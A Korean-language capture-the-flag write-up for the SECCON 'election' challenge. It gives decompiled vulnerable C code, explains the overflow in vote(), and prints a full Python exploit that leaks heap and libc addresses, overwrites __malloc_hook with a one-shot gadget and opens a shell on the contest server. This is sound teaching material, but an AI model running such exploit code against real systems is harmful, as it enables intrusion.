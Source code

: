 Election 200 (Solver : 54)
=============

### 1. Introduction

| RELRO      | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE     |
|------------|--------------|------------|--------|----------|------------|----------|
| Full RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | election | 

x64 바이너리이며 취약점은 쉬우나 leak이 힘들었다.

### 2. Vulnerability
```c
unsigned __int64 vote()
{
  const char *v0; // rsi
  const char **i; // [rsp+8h] [rbp-48h]
  char s1; // [rsp+10h] [rbp-40h]
  __int64 v4; // [rsp+30h] [rbp-20h]
  char v5; // [rsp+38h] [rbp-18h]
  unsigned __int64 v6; // [rsp+48h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = 1;
  if ( (unsigned int)lv <= 2 )
  {
    lv = 2;
    printf("Show candidates? (Y/n) ");
    getnline(&s1, 32LL);
    v0 = "n";
    if ( strcasecmp(&s1, "n") )
    {
      puts("Candidates:");
      for ( i = (const char **)list; i; i = (const char **)i[1] )
      {
        v0 = *i;
        printf("* %s\n", *i);
      }
    }
    printf("Enter the name of the candidate.\n>> ", v0);
    getnline(&s1, 32LL);
    if ( !strcasecmp(&s1, "oshima") )
    {
      v4 = find_list("ojima", "oshima");
      if ( v4 )
      {
        printf("I'm not 'Oshima', but 'Ojima'!\nWould you modify the name and re-vote?\n>> ");
        getnline(&s1, 48LL);
        if ( !strcasecmp(&s1, "yes") )
          *(_DWORD *)(v4 + 16) += v5;
      }
    }
    else
    {
      v4 = find_list(&s1, "oshima");
      if ( v4 )
      {
        *(_DWORD *)(v4 + 16) += v5;
      }
      else
      {
        printf("'%s' is invalid vote :(\n", &s1);
        ++inv_votes;
      }
    }
  }
  else
  {
    puts("The voting has already closed.");
  }
  return __readfsqword(0x28u) ^ v6;
}
```
위 소스에서 oshima를 입력할 때 bof가 발생하여 v4와 v5값을 덮을 수 있다. 즉 원하는곳에 1바이트를 쓰는것이 가능하다.

### 3. Exploit

처음 생각한 솔루션은 candidate list의 pointer를 덮어서 leak을 하고 힙 내용을 잘 맞춰줘서 한번더 bof를 이용해 malloc_hook에 oneshot을 쓰려했다. 하지만 널바이트가 존재하면 입력을 그만받기때문에 한번 릭을 하고서 bof를 다시 발생시키기 어려웠다.

그래서 leak을 불러오는 chunk의 마지막 1바이트를 "\x00"로 설정해서 가장 마지막에 있는 청크를 불러와 1씩 더해줘서 heap을 leak했다. heap leak이 성공하면 그걸로 libc를 leak malloc_hook에다가 oneshot을 넣어주면 exploit할 수 있다.
```python
from ntpwn import *

#s = process('./election')
s = remote('election.pwn.seccon.jp',28349)
e = ELF('./election')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

'''
b = BP(s)
b.bp('tracemalloc on')
b.bp64(0xba1)
b.bp('c')
b.done()
'''

prompt = '>>'
lv = 0x602010

def stand(name):
	s.sendlineafter(prompt,'1')
	s.sendlineafter(prompt,name)

def vote(yn,candidate):
	s.sendlineafter(prompt,'2')
	s.sendlineafter(' (Y/n) ',yn)
	s.sendlineafter(prompt,candidate)

def result():
	s.sendlineafter(prompt,'3')

stand(p64(e.got['puts']))

# Tatsumi -> name_pointer + 0x20
for i in range(0x20):
	vote('Y','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00" +  "A" * 0x18)

# Leak Heap
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
heap_base = u32(s.recv(4)) - 0x70

# 4byte -> 3byte
if heap_base % 0xa000000 < 0x1000000 :
	heap_base = heap_base % 0xa000000

log.info("HEAP BASE : " + hex(heap_base))

s.sendafter(prompt,'\x0a')

# Shinonome -> next_pointer + 0xb0 (puts_got)
for i in range(4):
	vote('n','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(heap_base+0x58-0x10)+"\x38")

# Leak Libc
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['puts']
malloc_hook = libc_base + l.symbols['__malloc_hook']
oneshot = libc_base + 0xf0274

log.info("LIBC BASE : " + hex(libc_base))
log.info("ONESHOT : " + hex(oneshot))

s.sendafter(prompt,'\x0a')

# __malloc_hook -> oneshot
for i in range(6):
	vote('n','oshima')

	one_byte = u32(p64(oneshot)[i] + "\x00" * 3)

	if one_byte > 128:
		print "NoNo!!"
		exit()

	payload = "yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(malloc_hook-0x10+i) + p32(one_byte)

	s.sendafter(prompt,payload)

# lv -> 1
vote('n','oshima')
s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(lv-0x10)+"\xff")

pause()
# malloc triger
s.sendlineafter(prompt,'1')
s.sendlineafter(prompt,'NEXTLINE')

s.interactive()
```
